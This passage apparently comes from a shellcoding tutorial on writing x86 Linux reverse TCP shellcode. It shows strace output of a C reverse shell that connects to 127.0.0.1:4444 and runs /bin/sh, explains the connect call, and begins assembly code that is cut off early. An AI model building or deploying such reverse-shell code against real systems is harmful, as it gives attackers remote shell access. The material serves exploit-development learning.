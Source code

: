 Once again, if we use `strace ./reversetcpshell` when starting the reverse
shell we can see the system calls being made:

    socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
    dup2(3, 0)                              = 0
    dup2(3, 1)                              = 1
    dup2(3, 2)                              = 2
    connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
    execve("/bin/sh", [0], [/* 0 vars */])  = 0

Interestingly, our c program is shorter and the amount of system calls
that we need seems to have decreased. It seems as though our reverse
tcp shellcode could be as basic as using `socket, dup2, connect, and execve`.
Essentially we do not need to worry about `bind, listen, or accept` and
just need to learn about 1 system call we haven't used before; `connect`.

Ok, what can we learn about connect?

    int connect(int socket, const struct sockaddr *address, socklen_t address_len);

If we remember the function signature of bind:

    int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);

We see that they are exactly the same! The only difference is that when
we define the sockaddr structure we will want to specify the IP of the
machine that we want to connect back to instead of the 0.0.0.0 IP we
specified in our bindshell.

Cool! Lets write some assembly&#x2026;

## Assembly: Take 1<a id="sec-1-6" name="sec-1-6"></a>

If we remember our research on  creating our bindshell,
the system call for `SYS_CONNECT` was 3.

    #define SYS_CONNECT 3   /* sys_connect(2)   */

So in theory, if we modify our assembly to call 3 instead of 2 e.g
`connect` instead of `bind`, remove unnecessary system calls, and make
sure that we redirect stdin,stdout,and stderror after making our
connection, we should be in good shape. Lets give that a shot:

    global _start
    
    section .text
      _start:
        ;; Create a socket
        ;; int socketcall(int call, unsigned long *args);
        ;; int socket(int domain, int type, int protocol);
        ;; #define SYS_SOCKET 1   /* sys_socket(2)    */
        ;; Use socketcall to call down to socket
        xor eax, eax
        mov al, 0x66 ; socketcall syscall
        xor ebx, ebx
        mov bl, 0x1 ; sys_socket syscall number
    